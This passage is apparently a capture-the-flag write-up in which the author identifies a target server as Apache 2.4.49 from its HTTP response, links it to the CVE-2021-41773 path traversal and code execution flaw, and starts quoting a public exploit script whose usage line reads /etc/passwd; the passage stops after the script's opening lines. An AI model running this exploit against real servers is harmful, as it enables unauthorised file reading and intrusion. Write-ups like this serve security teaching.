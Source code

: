**Flag:** `flag{1434978065}`

### Known Vulnerability 1

We were given the target of `http://13.114.183.54:8081`.

An initial request was first sent to `http://13.114.183.54:8081`:

```
GET / HTTP/1.1
Host: 13.114.183.54:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

The response we received indicated that the server was Apache 2.4.49.

```
HTTP/1.1 200 OK
Date: Fri, 26 Nov 2021 03:01:03 GMT
Server: Apache/2.4.49 (Unix)
Last-Modified: Mon, 11 Jun 2007 18:53:14 GMT
ETag: "2d-432a5e4a73a80"
Accept-Ranges: bytes
Content-Length: 45
Connection: close
Content-Type: text/html

<html><body><h1>It works!</h1></body></html>

```

If you've been keeping up with the infosec drama in the past few months, that Apache version
would've been a huge red flag as there was a directory traversal vulnerability ([CVE-2021-41773](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013))
introduced in that version. The vulnerability could even be leveraged to gain code execution.

Searching for an exploit turns this [script by Lucas Souza](https://www.exploit-db.com/exploits/50383)
up.

```bash
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Date: 10/05/2021
# Exploit Author: Lucas Souza https://lsass.io
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
```